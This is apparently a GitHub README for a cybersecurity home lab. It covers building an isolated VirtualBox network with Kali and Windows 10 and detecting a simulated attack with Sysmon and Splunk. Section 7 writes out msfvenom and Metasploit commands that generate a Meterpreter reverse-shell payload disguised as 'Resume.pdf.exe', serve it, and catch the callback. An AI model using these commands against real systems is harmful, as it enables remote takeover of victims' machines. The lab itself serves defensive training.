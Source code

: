 🏠 Cybersecurity Home Lab Manual

This guide documents the full process of building and using a defensive + offensive home lab with VirtualBox, Kali Linux, Windows 10, Sysmon, and Splunk. The goal is to simulate real-world attack and detection workflows.

1. Lab Architecture

VirtualBox is used as the hypervisor.

Internal Network configured so VMs can talk to each other but not the internet.

Static IPs assigned:

Windows 10 VM → 192.168.20.10

Kali Linux VM → 192.168.20.11

Diagram
[ Kali Linux Attacker ] 192.168.20.11
        |
   (Internal Network)
        |
[ Windows 10 Victim + Splunk ] 192.168.20.10

2. Windows 10 VM Setup

Install Windows 10 ISO in VirtualBox.

Disable auto-boot from ISO after installation (to avoid reinstall each reboot).

Assign static IP:

IP: 192.168.20.10

Subnet: 255.255.255.0

Gateway: leave blank (no internet).

Install Splunk Enterprise (free):

Download on host → copy into VM.

Install to default path C:\Program Files\Splunk.

Start Splunk via browser: https://localhost:8000.

3. Sysmon Deployment

Download Sysmon from Microsoft Sysinternals on host → copy to Windows VM.

Install with config:

sysmon64.exe -i sysmonconfig.xml


(The XML defines what events Sysmon collects).

Verify logs:

Open Event Viewer → Applications and Services Logs → Microsoft → Windows → Sysmon → Operational.

4. Splunk Configuration for Logs

Create a new index in Splunk:

Settings → Indexes → endpoint.

Create a small Splunk inputs.conf app:

Path:

C:\Program Files\Splunk\etc\apps\TA-lab-win\local\inputs.conf


Content:

[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = 0
index = endpoint
renderXml = true

[WinEventLog://Security]
disabled = 0
index = endpoint

[WinEventLog://System]
disabled = 0
index = endpoint

[WinEventLog://Application]
disabled = 0
index = endpoint

[WinEventLog://Microsoft-Windows-PowerShell/Operational]
disabled = 0
index = endpoint

[WinEventLog://Microsoft-Windows-Windows Defender/Operational]
disabled = 0
index = endpoint


Restart Splunk service:

net stop splunkd
net start splunkd


Verify ingestion in Search:

index=endpoint | stats count by sourcetype

5. Kali Linux VM Setup

Install Kali Linux ISO in VirtualBox.

Assign static IP:

IP: 192.168.20.11.

Install tools (already preloaded in Kali):

nmap, msfvenom, metasploit-framework.

6. Reconnaissance (Attacker → Victim)

From Kali, scan Windows:

nmap -Pn -A 192.168.20.10


If RDP is enabled → you’ll see 3389/tcp open.

Other ports may be closed unless you expose them.

7. Exploitation with Metasploit

On Kali, generate payload:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe


Host file for transfer:

python3 -m http.server 9999


On Windows VM, download file (simulate user action).

On Kali, start listener:

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.20.11
set LPORT 4444
run

8. Detection in Splunk
Search 1: Network Connections (Sysmon Event ID 3)
index=endpoint sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 dest_ip=192.168.20.11


Shows Windows connecting back to Kali’s 4444 port.

Search 2: Process Creation (Sysmon Event ID 1)
index=endpoint sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 Image="*Resume.pdf.exe"


Shows execution of the dropped malware.

Search 3: General endpoint visibility
index=endpoint | stats count by EventCode, Image, dest_ip, dest_port

9. Lab Outcomes

✅ You simulated a realistic attack chain:

Recon (Nmap)

Exploit (Meterpreter via MSFVenom)

Execution (malware run on Windows)

Detection (Sysmon + Splunk).

✅ You learned:

How to build internal network lab safely (no internet exposure).

How to integrate Sysmon with Splunk for monitoring.

How to detect attacker activity via Splunk searches.

10. Next Steps

Add Splunk App for Sysmon (offline install).

Try other payloads (PowerShell Empire, Cobalt Strike trial).

Add more logs: DNS, Firewall, Registry.

Write Splunk detections (correlation searches).

Expand: Linux server + ELK stack, pfSense firewall, SIEM correlation.
